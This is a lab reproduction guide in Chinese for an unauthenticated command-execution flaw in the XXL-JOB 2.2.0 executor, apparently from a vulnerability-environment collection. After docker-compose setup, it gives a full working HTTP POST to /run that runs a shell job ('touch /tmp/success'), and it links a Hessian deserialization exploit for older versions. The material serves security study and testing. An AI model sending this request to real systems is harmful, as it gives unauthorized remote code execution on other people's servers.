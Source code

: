 # XXL-JOB executor 未授权访问漏洞

XXL-JOB是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用。XXL-JOB分为admin和executor两端，前者为后台管理页面，后者是任务执行的客户端。executor默认没有配置认证，未授权的攻击者可以通过RESTful API执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s/jzXIVrEl0vbjZxI4xlUm-g
- https://landgrey.me/blog/18/
- https://github.com/OneSourceCat/XxlJob-Hessian-RCE

## 环境搭建

执行如下命令启动2.2.0版本的XXL-JOB：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到管理端（admin），访问`http://your-ip:9999`可以查看到客户端（executor）。

## 漏洞复现

向客户端（executor）发送如下数据包，即可执行命令：

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "touch /tmp/success",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

![](1.png)

`touch /tmp/success`已成功执行：

![](2.png)

另外，低于2.2.0版本的XXL-JOB没有RESTful API，我们可以通过[Hessian反序列化](https://github.com/OneSourceCat/XxlJob-Hessian-RCE)来执行命令。